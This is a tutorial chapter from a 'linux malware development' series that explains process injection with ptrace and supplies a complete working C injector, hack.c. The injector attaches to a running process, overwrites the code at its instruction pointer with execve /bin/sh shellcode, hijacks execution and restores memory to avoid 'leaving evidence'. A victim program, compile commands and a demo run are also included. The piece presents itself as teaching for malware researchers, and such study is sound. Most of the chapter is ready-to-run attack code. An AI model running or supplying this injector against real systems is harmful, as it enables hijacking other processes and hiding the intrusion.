




\newpage
\subsection{100. linux malware development 3: linux process injection with ptrace. Simple C example.}

﷽


{width="80%"}     

The number of known injection techniques on Windows machines is huge, for example: [first](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html), [second](https://cocomelonc.github.io/tutorial/2021/11/20/malware-injection-4.html) or [third](https://cocomelonc.github.io/tutorial/2021/11/22/malware-injection-5.html) examples from my blog.      

Today, I'll guide you through an awesome Linux injection technique using the `ptrace` system call. Think of `ptrace` as your personal key to inspecting, modifying, and even hijacking other processes.      

### ptrace

`ptrace` is a system call that allows you to debug remote processes. The initiating process has the ability to inspect and modify the debugged process's memory and registers. GDB, for example, uses ptrace to control the debugged process.     

{width="80%"}     

Ptrace offers several useful debugging operations, such as:

`PTRACE_ATTACH` - allows you to attach to one process, pausing the debugged process      
`PTRACE_PEEKTEXT` - allows you to read data from the address space of another process        
`PTRACE_POKETEXT` - allows you to write data to the address space of another process       
`PTRACE_GETREGS` - reads the current state of the process registers      
`PTRACE_SETREGS` - writes the state of the process registers       
`PTRACE_CONT` - continues execution of the debugged process      

### practical example

In this step-by-step tutorial I will show you how to:

Attach to a running process.    
Inject custom shellcode.     
Hijack execution.     
Restore the original state after execution.       

We'll break it all down using a simple practical C example. Let's go!         

The first thing we need to do is attach to the process we are interested in. To do this, it is enough to call `ptrace` with the `PTRACE_ATTACH` parameter:     

```cpp
printf("attaching to process %d\n", target_pid);
if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
  perror("failed to attach");
  return 1;
}
```

This halts the process and allows us to inspect its memory and registers.     

Before making any changes to the processor registers, we must first take a backup of their existing state. This enables us to resume execution at a later stage:     

```cpp
struct user_regs_struct target_regs;
//...
//...
// get the current registers
printf("reading process registers\n");
ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);
```

Using `PTRACE_PEEKDATA`, we read the memory at the instruction pointer (`RIP`). This is crucial for restoring the process to its original state after injection. For this reason I just created `read_mem` function:     

```cpp
// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }
}
```

Let me show the step-by-step workflow of this function.    

`ptrace` reads memory in chunks of `sizeof(long)` bytes. This union allows us to easily handle the data as a `long` for `ptrace` operations and also access individual bytes via the `bytes` array:     

```cpp
union data_chunk {
  long val;
  char bytes[sizeof(long)];
} chunk;
```

Then we read full `sizeof(long)` chunks:     

```cpp
int i = 0;
while (i < len / sizeof(long)) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
  i++;
}
```

As you can see, here, we reads a `long` (typically `8 bytes` on `64-bit` systems) from the target process at a specific memory address. Then, the read data is copied into the `buffer` using `memcpy`. This continues until all full `sizeof(long)` chunks are read.     

Then, handle remaining bytes:     

```cpp
int remaining = len % sizeof(long);
if (remaining) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
}
```

The logic is simple: if the length (`len`) is not a multiple of `sizeof(long)`, there may be leftover bytes to read. The function handles these remaining bytes by reading another full `long` from memory and copying only the necessary number of bytes into the buffer.     

So, as a result, the entire memory block (`len` bytes) from the target process starting at `addr` is now stored in `buffer`.      

With `PTRACE_POKEDATA`, we inject our custom shellcode into the target process's memory at the `RIP` address.     

```cpp
// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}
```

As you can see this function is like `read_mem`, but for write memory logic.      

At the next stage, we modify the process's instruction pointer (`RIP`) to execute the injected payload:     

```cpp
ptrace(PTRACE_CONT, target_pid, NULL, NULL);
```

After the payload has executed, we restore the original memory instructions to avoid crashing the process or leaving evidence:      

```cpp
write_mem(target_pid, target_regs.rip, original_code, payload_len);
```

Finally, detach from the target process, allowing it to resume normal operation:     

```cpp
ptrace(PTRACE_DETACH, target_pid, NULL, NULL);
```

So the full source code of our code injection "malware" looks like this (`hack.c`):     

```cpp
/*
 * hack.c
 * practical example of linux process injection
 * author @cocomelonc
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <unistd.h>

// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }
}

// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}

int main(int argc, char *argv[]) {
  if (argc != 2) {
    printf("usage: %s <target_pid>\n", argv[0]);
    return 1;
  }

  pid_t target_pid = atoi(argv[1]);
  char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
  "\x69\x6e\x2f\x2f\x73\x68\x57\x54"
  "\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
  int payload_len = sizeof(payload) - 1;
  char original_code[payload_len];

  struct user_regs_struct target_regs;

  // attach to the target process
  printf("attaching to process %d\n", target_pid);
  if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
    perror("failed to attach :(");
    return 1;
  }
  waitpid(target_pid, NULL, 0);

  // get the current registers
  printf("reading process registers\n");
  ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);

  // backup the memory at RIP
  printf("backing up target memory\n");
  read_mem(target_pid, target_regs.rip, original_code, payload_len);

  // inject the payload
  printf("injecting payload\n");
  write_mem(target_pid, target_regs.rip, payload, payload_len);

  // hijack execution
  printf("hijacking process execution\n");
  ptrace(PTRACE_CONT, target_pid, NULL, NULL);

  // wait for the payload to execute
  wait(NULL);

  // restore the original code
  printf("restoring original process memory\n");
  write_mem(target_pid, target_regs.rip, original_code, payload_len);

  // detach from the process
  printf("detaching from process\n");
  ptrace(PTRACE_DETACH, target_pid, NULL, NULL);

  printf("injection complete\n");
  return 0;
}
```

But there is a caveat. *Why do we use `waitpid` in process injection code?*     
When we attach to a process using `ptrace` (via `PTRACE_ATTACH`), the target process doesn't stop immediately. It continues executing until the operating system delivers a signal indicating that the debugger (our injector) has taken control. We use `waitpid` to block execution in our injector until the target process enters this stopped state:      

```cpp
ptrace(PTRACE_ATTACH, target_pid, NULL, NULL);
waitpid(target_pid, NULL, 0);
```

Without `waitpid`, we might attempt to read or modify memory before the OS guarantees that the target process is fully stopped, leading to undefined behavior.      

Also, in process injection, we often need to detect when our *injected shellcode has finished executing*. To do this, we use a software interrupt, such as the `int 0x3` instruction, which triggers a `SIGTRAP` signal in the target process. This signal pauses the process, allowing us to regain control via `waitpid`.    

Ok, but what about `wait`. *What is `wait`, and when do we use it?*     

The `wait` function is a simpler variant of `waitpid`. It waits for any child process to change state. Unlike `waitpid`, it doesn't let us specify a specific PID or use advanced options.

In the context of process injection, we don't typically use `wait`, as we need fine-grained control over a specific process (our target), which `waitpid` provides. However, `wait` might be used in cases where multiple child processes are involved, and we don't care which one changes state first.     

So, by using `waitpid` strategically, we can ensure smooth and reliable process injection.       

For simplicity, I just used simplest payload:     

```cpp
char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
"\x69\x6e\x2f\x2f\x73\x68\x57\x54"
"\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
```

### demo

First of all for demonstrating purposes we need a "victim" process.      

Here's a simple "victim" process written in C that runs an infinite loop, making it a suitable target for injection testing. This program will print a message periodically, simulating a real running process:     

```cpp
/*
 * meow.c
 * simple "victim" process for injection testing
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/22/linux-hacking-3.html
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  printf("victim process started. PID: %d\n", getpid());

  while (1) {
    printf("meow-meow... PID: %d\n", getpid());
    sleep(5); // simulate periodic activity
  }

  return 0;
}
```

Compile the victim process:     

```bash
gcc meow.c -o meow
```

{width="80%"}     

and compile `hack.c` injector:     

```bash
gcc -z execstack hack.c -o hack
```

{width="80%"}     

Run the victim process first in my Ubuntu 24.04 VM:     

```bash
./meow
```

Note the `PID` printed by the victim process:     

{width="80%"}     

In our case `PID = 5987`.      

We can now use this `PID` as the target for our injection `hack`. For example:     

```bash
./hack 5987
```

{width="80%"}     

This will attach to the victim process and inject our payload while the victim keeps running:      

{width="80%"}     

{width="80%"}     

As you can see everything is worked perfectly! =^..^=

### final words

This practical example demonstrates how `ptrace` can be weaponized for injecting custom shellcode into a process and modifying its execution flow.      

Of course this technique with `ptrace` is not new, but highlight how legitimate functionality can be misused for malicious purposes.       

I hope this post with practical example is useful for malware researchers, linux programmers and everyone who interested on linux kernel programming and linux code injection techniques.    

*Note: Linux also provides `process_vm_readv()` and `process_vm_writev()` for reading/writing to process memory.*       

[ptrace](https://docs.kernel.org/arch/powerpc/ptrace.html)      
[Linux malware development 1: intro to kernel hacking. Simple C example](https://cocomelonc.github.io/linux/2024/06/20/linux-kernel-hacking-1.html)      
[Linux malware development 2: find process ID by name. Simple C example](https://cocomelonc.github.io/linux/2024/09/16/linux-hacking-2.html)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-11-22-linux-hacking-3)    
